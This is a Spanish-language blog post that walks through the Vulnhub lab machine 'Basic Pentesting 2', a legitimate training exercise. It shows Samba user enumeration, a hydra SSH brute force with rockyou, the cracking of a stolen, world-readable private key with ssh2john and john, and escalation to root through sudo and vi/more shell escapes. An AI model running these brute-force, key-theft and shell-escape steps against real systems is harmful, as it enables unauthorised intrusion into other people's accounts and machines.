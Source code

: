 ```yaml
---
title: "Vulnhub #1: CSEC Basic Pentesting 2"
description: Pentesting a máquina CSEC 2 en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/basic-pentesting-2,241/)

## Descubrimiento de hosts

Tras iniciar la maquina escaneamos con `sudo netdiscover`.

Estos son las IP del lab:

```plaintext
Ubuntu(host): 192.168.0.20
Kali(VM):     192.168.0.16
Victima:      192.168.0.17
```

## Servicios
```
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
```

Si lanzamos `nmap -sT -sV -A -vvv 192.168.0.17` y no obtenemos ninguna vulnerabilidad explotable.

Sin embargo, podemos intentar enumerar usuarios de samba con `enum4linux <ip>`
Obtenemos dos usuarios:

```plaintext
kay
jan
```

## Ataque SSH

Lanzamos hydra con rockyou.txt usando `hydra -l kay -P ./rockyou.txt ssh://192.168.0.17`

La contraseña es `armando`

Una vez dentro podemos hacer `ls -lisaR /home` para analizar las carpetas de usuarios.

Ahi podemos ver que en la carpeta .ssh del usuario kay tiene un `id_rsa` con permisos globales de lectura.

```
/home/kay/.ssh:
total 20
798691 4 drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
786930 4 drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
798921 4 -rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
798917 4 -rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
798918 4 -rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
jan@basic2:~$ cat /home/kay/.ssh/id_rsa
```

## Usando una clave robada

Podemos copiar el archivo y usarlo para intentar entrar en la maquina con `ssh kay@ip -i clave-robada`

Whooops! Nos devuelve esto:

```plaintext
Permissions 0664 for 'id_key' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_key": bad permissions
```

Debemos dar permisos de lectura y escritura para usuario y grupo con `chmod 400 clave-robada`

Ahora nos pide la contraseña de la clave.

Esa contraseña está DENTRO de nuestro archivo `clave-robada`.

Convierte la clave a un formato que john entienda con `ssh2john clave-robada > clave-formato-john`

Una vez listo podemos romper la contraseña con `john clave-formato-john --wordlist=rockyou.txt`

```plaintext
beeswax          (clave-robada)     
1g 0:00:00:00 DONE (2024-09-17 06:09) 12.50g/s 1034Kp/s 1034Kc/s 1034KC/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Si hacemos `ssh kay@ip -i clave-robada`

Nos pedirá la contraseña `beeswax` descubierta antes.

Estamos dentro!

¿Que podemos hacer ahora?

## Escalando privilegios

Podemos volver a usar `ls -lisaR /home` para listar de nuevo por si hubiera cosas que no hemos visto antes

Tenemos un `pass.bak` que podemos leer:

```plaintext
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Si intentamos usar `sudo -l` para ver que podemos lanzar nos pedirá una contraseña.

Podemos pasar esa contraseña y ver que podemos lanzar `sudo su`

```plaintext
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Tras lanzarlo, ya somos `root`.


### Otras formas de conseguir `root`:

#### sudo vi

```plaintext
sudo vi
Escribimos :!sh y nos devuelve una consola root
```

#### more

```plaintext
Escribimos un archivo relativamente largo y lo abrimos con `more` y tenemos algo similar a vi
Con !sh podremos abrir otra consola.
```
